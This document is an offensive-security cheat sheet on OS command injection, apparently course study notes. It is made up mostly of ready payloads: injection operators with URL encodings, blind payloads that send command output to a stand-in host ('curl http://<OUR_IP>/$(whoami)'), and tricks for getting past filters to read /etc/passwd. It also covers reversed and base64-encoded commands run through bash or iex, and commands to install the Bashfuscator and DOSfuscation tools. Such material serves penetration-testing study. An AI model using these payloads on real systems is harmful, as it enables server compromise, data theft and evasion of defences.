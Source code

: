 # Command Injection

A Command Injection vulnerability is among the most critical types of vulnerabilities. It allows us to execute system commands directly on the back-end hosting server, which could lead to compromising the entire network. If a web application uses user-controlled input to execute a system command on the back-end server to retrieve and return specific output, we may be able to inject a malicious payload to subvert the intended command and execute our commands.

## Detection & Exploitation

The process of detecting basic OS Command Injection vulnerabilities is the same process for exploiting such vulnerabilities. We attempt to append our command through various injection methods. If the command output changes from the intended usual result, we have successfully exploited the vulnerability.

**Command Injection Methods**

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command                                         |
|--------------------|---------------------|-----------------------|----------------------------------------------------------|
| Semicolon          | ;                   | %3b                   | Both                                                     |
| New Line           | \n                  | %0a                   | Both                                                     |
| Background         | &                   | %26                   | Both (second output generally shown first)               |
| Pipe               | \|                  | %7c                   | Both (only second output is shown)                       |
| AND                | &&                  | %26%26                | Both (only if first succeeds)                            |
| OR                 | \|\|                 | %7c%7c                | Second (only if first fails)                             |
| Sub-Shell          | ``                  | %60%60                | Both (Linux-only)                                        |
| Sub-Shell          | $()                  | %24%28%29             | Both (Linux-only)                                        |

````
Tip: In addition to the above, there are a few unix-only operators, that would work on Linux and macOS, but would not work on Windows, such as wrapping our injected command with double backticks (``) or with a sub-shell operator ($()).

Note: The only exception may be the semi-colon ;, which will not work if the command was being executed with Windows Command Line (CMD), but would still work if it was being executed with Windows PowerShell.
````

**Example of Injections**
````
127.0.0.1; whoami
127.0.0.1%3b whoami
127.0.0.1 && whoami
127.0.0.1 || whoami
127.0.0.1; curl http://<OUR_IP>/ (Blind)
127.0.0.1; curl http://<OUR_IP>/$(whoami) (Blind)
````

## Filter Evasion

First, we must identify which operators are being blocked from being allowed in the application, and we can see this from the different responses that the server gives us.

**Bypassing Space Filters**

Tabs

Using tabs (%09) instead of spaces is a technique that may work, as both Linux and Windows accept commands with tabs between arguments, and they are executed the same.
````
127.0.0.1;%09whoami
````
Using $IFS

Using the ($IFS) Linux Environment Variable may also work since its default value is a space and a tab, which would work between command arguments.
````
127.0.0.1;${IFS}whoami
````
Using Brace Expansion
````
127.0.0.1;{ls,-la}
````

**Bypassing Other Blacklisted Characters**

Linux

There are many techniques we can utilize to have slashes in our payload. One such technique we can use for replacing slashes (or any other character) is through Linux Environment Variables like we did with ${IFS}. While ${IFS} is directly replaced with a space, there's no such environment variable for slashes or semi-colons. However, these characters may be used in an environment variable, and we can specify start and length of our string to exactly match this character.
````
$ echo ${PATH:0:1}
/

127.0.0.1;cat ${PATH:0:1}etc${PATH:0:1}passwd
````

We can do the same with the $HOME or $PWD environment variables as well. We can also use the same concept to get a semi-colon character, to be used as an injection operator.
````
$ echo ${LS_COLORS:10:1}
;

127.0.0.1${LS_COLORS:10:1}whoami
````

Windows

The same concept works on Windows as well. For example, to produce a slash in Windows Command Line (CMD), we can echo a Windows variable (%HOMEPATH% -> \Users\student), and then specify a starting position (~6 -> \student), and finally specifying a negative end position, which in this case is the length of the username htb-student (-7 -> \) :

````
> echo %HOMEPATH:~6,-11%
\
````
Powershell
````
> $env:HOMEPATH[0]
\
````

**Bypassing Blacklisted Commands**

Windows and Linux
````
$ w'h'o'am'i
$ w"h"o"am"i

127.0.0.1%0aw'h'o'am'i
````
Linux Only
````
who$@ami
w\ho\am\i
````
Windows Only
````
who^ami
````

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space

### Advanced Command Obfuscation

**Case Manipulation**
````
> WhOaMi (Windows)
$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")   (Linux)
````

**Reversed Commands**
````
$ $(rev<<<'imaohw')  - Linux
> "whoami"[-1..-20] -join ''    (Windows)
> iex "$('imaohw'[-1..-20] -join '')"  (Windows)
````

**Encoded Commands**
````
$ bash<<<$(base64 -d<<<base64_encoded_command)   (Linux)
> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('base64_encoded_command')))"  (Windows)
````

## Evasion Tools

**Linux (Bashfuscator)**
````
$ git clone https://github.com/Bashfuscator/Bashfuscator
$ cd Bashfuscator
$ pip3 install setuptools==65
$ python3 setup.py install --user
$ ./bashfuscator -c 'cat /etc/passwd'
$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
````

**Windows (DOSfuscation)**
````
> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
> cd Invoke-DOSfuscation
> Import-Module .\Invoke-DOSfuscation.psd1
> SET COMMAND type C:\Users\student\Desktop\flag.txt
> encoding
````
